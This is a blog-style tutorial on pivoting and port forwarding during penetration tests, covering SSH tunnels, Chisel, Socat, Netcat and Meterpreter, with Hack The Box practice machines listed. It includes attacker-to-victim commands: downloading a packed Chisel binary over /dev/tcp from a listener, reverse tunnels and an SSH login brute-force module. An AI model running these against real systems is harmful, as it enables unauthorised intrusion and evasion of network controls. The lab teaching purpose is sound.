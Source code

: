 ```yaml
---
title: "Port Forwarding"
image: 
  path: /assets/images/tutorials/PortForwarding/headerPF.png
sub_title: "Basic port forwarding techniques"
categories:
  - Tutorials
  - PortForwarding
---
```


In this post we will see different port forwarding tools and techniques.
To see the different examples, we will use the following fictitious scenario.

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310123314.png){: .align-center}

Our attacking Kali machine (192.168.164.133) and our victim Ubuntu machine (192.168.164.130) which is running a python simple HTTP server only accessible locally. 

The different tools that we are going to see are:
 - SSH
- Chisel
- Socat
- Netcat
- Msfconsole / meterpreter

### SHH
We can pivot using ssh in three different ways:
 - SSH Local port forwarding
- SSH Remote port forwarding
- SSH Dynamic port forwarding (SOCKS)


#### SSH Local port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133017.png){: .align-center}

```bash
      root@kali:~$ ssh -L 9000:127.0.0.1:8000 ust@192.168.164.130
```

This command will make the remote web server accessible, on our localhost on port 9000.

#### SSH Remote port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132100.png){: .align-center}

```shell
    victim@ubuntu:~$ sudo ssh -R 9090:localhost:8000 kali@192.168.164.133
```

We have to run this command from the victim machine, once we have gained access to it. With this command, we will be able to access from our Kali to the remote application in our localhost, port 9090.

#### SSH    Dynamic port forwarding (SOCKS)

First we need to configure our proxychains file: **/etc/proxychains.conf**

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132643.png){: .align-center}

We set socks4 on port 9000.

Then we run the following ssh command:

```shell
    root@kali:~$ ssh -D 9000 victim@192.168.164.130
```

After that, we need to configure the proxy in our browser (in this case, using foxyproxy.) 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133340.png){: .align-center}

We set the Proxy Type as **SOCKS4** and use the configuration we put in the proxychains.conf file.

Finally, we will be able to reach the remote HTTP server from our Kali as is it shown in the image below. 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133601.png){: .align-center}


### Chisel

How to install and execute Chisel:

Kali machine:
``` shell
root@kali:~/tools$ git clone https://github.com/jpillora/chisel.git
root@kali:~/tools$ cd chisel
root@kali:~/tools/chisel$ go build –ldflags=“-s –w”
root@kali:~/tools/chisel$ upx brute chisel 
root@kali:~/tools/chisel$ nc -lvnp 6666 < chisel
root@kali:~/tools/chisel$ ./chisel server -p 8002 -reverse -v
```

Victim machine:

``` shell
ust@ubuntu:~/tmp$ cat < /dev/tcp/192.168.164.133/6666 > chisel
ust@ubuntu:~/tmp$ chmod 755 chisel
ust@ubuntu:~/tmp$ ./chisel client 192.168.164.133:8002 R:127.0.0.1:8000
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310134836.png){: .align-center}

Then we will be able to reach the remote HTTP server in our localhost port 8000.

#### Socat

```sh
root@kali:~/tools$ socat TCP-LISTEN:localport,fork,reuseaddr TCP:remoteIP:remoteport
root@kali:~/tools$ socat TCP-LISTEN:10000,fork,reuseaddr TCP:192.168.164.130:8000
```

#### Netcat
```sh  
root@kali:~/tools$ mknod pivot p
root@kali:~/tools$ nc -l -p 12000 0<pivot | nc 192.168.164.130 8000 1>pivot
```

#### Msfconsole / meterpreter

Use auxiliary/scanner/ssh/ssh_login module to create a session

```sh
root@kali:~/tools$ msfconsole
msf5 use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.164.130
msf5 auxiliary(scanner/ssh/ssh_login) > set username victim
msf5 auxiliary(scanner/ssh/ssh_login) > set password pass
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -l 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u ‘id’
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i ‘id’
```

Once connected, use the meterpreter session opened and do the port forwarding:

```sh
meterpreter > portfwd -h
meterpreter > portfwd add -l 1234 -p 8000 -r 192.168.164.130
meterpreter > portfwd list
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310135630.png){: .align-center}

## Practice
If you want to practice the techniques and tools explained in this post, you can make the following hack the box machines:

- Granny
- Grandpa
- Vault
- Reddish
